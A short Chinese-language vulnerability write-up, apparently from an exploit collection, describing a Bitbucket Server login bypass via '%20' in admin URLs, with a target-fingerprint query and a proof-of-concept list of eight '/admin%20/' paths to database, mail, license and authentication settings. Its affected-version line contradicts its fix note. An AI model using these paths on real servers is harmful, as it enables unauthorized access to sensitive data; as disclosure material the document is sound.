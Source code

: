 # Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

<a-checkbox checked>Bitbucket Server > 4.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Log in - Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646803634647-f4c4a968-440a-4dd0-8e1b-24955401b1f4.png)

验证POC

```javascript
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![img](../../../.vuepress/public/img/1646803761282-1d4e5f70-673a-4d11-b5a6-982a5d31f4d8.png)

